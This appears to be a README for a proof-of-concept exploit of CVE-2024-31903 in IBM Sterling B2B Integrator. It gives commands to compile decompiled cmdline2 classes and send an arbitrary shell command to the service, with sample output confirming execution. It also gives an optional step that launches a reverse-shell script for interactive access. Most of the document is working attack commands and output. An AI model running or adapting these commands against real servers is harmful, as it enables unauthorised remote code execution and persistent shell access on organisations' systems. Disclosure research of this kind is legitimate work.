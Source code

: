 # CVE-2024-31903

> README to be updated soon

## Instructions 

Assuming you have retrieved the relevant files from the JAR decompilation. Will not be uplaoded here as they constitute IBM IP



1. Compilation

```bash
${B2BHOME}/INSTALL/jdk/bin/javac src/com/sterlingcommerce/woodstock/  
services/cmdline2/*.java
```

2.	Execution 

```bash
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main '/bin/sh -c "id > /tmp/withsecureresult"' SEND  
[+] Creating object...  
[+] Sending object...  
[+] ...Sent!  
[+] Receiving header...  
[+] ...header received:  
RESULT  
[+] Receiving result...  
[+] Result received:  
##[DEBUG]## CmdLine2Result:  
fileSize=0  
outputNameLong=null  
outputNameShort=null  
******* end of CmdLine2Result *******  
```

3.	(Optional) Fully Interactive Shell 

```bash 
${B2BHOME}/INSTALL/jdk/bin/java -classpath src/ com.sterlingcommerce.woodstock.services.cmdline2.Main 'python3 /tmp/revshell.py' SEND
```

